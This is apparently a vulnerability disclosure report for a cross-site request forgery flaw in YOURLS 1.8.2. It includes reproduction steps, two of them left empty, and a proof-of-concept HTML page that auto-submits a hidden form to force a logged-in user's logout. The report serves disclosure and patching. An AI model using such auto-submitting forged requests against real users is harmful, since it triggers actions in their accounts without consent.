


# Vulnerability Type

Cross-Site Request Forgery

# Description

Cross-Site Request Forgery (CSRF) in GitHub repository yourls/yourls prior to 1.8.3.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/yourls/yourls/
 - Version: 1.8.2
 - Tested on: Windows 10

 ## Exploit Description

A CSRF vulnerability in yourls allows an attacker to force a user to log out by triggering an forged logout request.

 ## Steps to Reproduce

  1. Save the following code as `poc.html`.
   2. Log in yourls, and open the file in the same browser.
   3. Observe the result.
   4. Begin:



5. After:



 ## Proof Of Concept
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF PoC</title>
</head>
<body>
    <h1>CSRF Proof of Concept</h1>
    <form action="http://yourls/admin/index.php" method="GET">
        <input type="hidden" name="action" value="logout">
        <input type="submit" value="Submit CSRF Request">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>

This HTML page, when visited by an authenticated user of the vulnerable application, will automatically submit a request to log the user out without their consent, demonstrating the CSRF vulnerability.
```

